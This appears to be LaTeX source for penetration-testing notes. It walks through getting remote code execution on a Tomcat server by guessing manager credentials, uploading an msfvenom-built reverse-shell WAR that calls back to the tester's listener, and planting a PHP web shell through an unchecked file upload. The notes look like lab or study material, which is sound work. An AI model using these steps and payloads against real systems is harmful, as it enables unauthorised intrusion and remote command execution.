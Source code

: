 \documentclass{article}[12pt]
\begin{document}
\paragraph{Tomcat Java servlet upload}
In this example I describe how remote code execution is done basing on servlet upload on tomcat server.
Lets consider tomcat server works on 10.10.10.10:8080 port (we know this from nmap).
We also know from nmap that operating system is Windows x65
Now we enumerate tomcat users using \texttt{auxiliary/scanner/http/tomcat\_mgr\_login}.
Lets assume enumeration gives: \texttt{tomcat:tomcat}.
Once the tomcat user is logged in go to place when WAR files are uploaded.
Make payload using \texttt{msfvenom -p windows/x64/shell/reverse\_tcp lhost\=192.168.1.4 -f war>tom.war} (\texttt{-f war} stands for format of input file and \texttt{lhost} is our host).
If war file has been compiled you can check what is inside by: \texttt{jar tvf <file-name>.war}.
There is file with .jsp extension and this file will execute shell and transmit it to our listener.
Now upload .war file on the server and run in the msfconsole \texttt{multi/handler}.
Multi-handling listener will run in terminal and will be wating for connections coming from remote machine.
Last step is to go to \texttt{http://10.10.10.10:8080/...../<war-file-name>/<jsp-file-name>.jsp}.
Finally you should see remote terminal and execute commands remotely.

\subsection{Buffer Overflow}


\subsection{PHP script injection}
Some websites allows users to upload content other than text e.g photos, movies, games and many other odd file formats.
While it is not properly controlles what type is being saved user is able to embeed PHP code which will be executed every time while trying to "see" uploaded content.
The vulnerability here is the remote shell execution.
PHP code which executes shell is simple : \texttt{echo shell\_exec(<shell script>);}, where shell script is the one executed by shell on local server.
In order to run the script you should find possibility to embeed the following script on the html page: \texttt{<?php echo shell\_exec(\$\_GET['variable']); ?>}.
In this scenario every time you open the page you added  the code to
you will be able to send shell commands remotely by passing them as GET variable via URI.
\end{document}
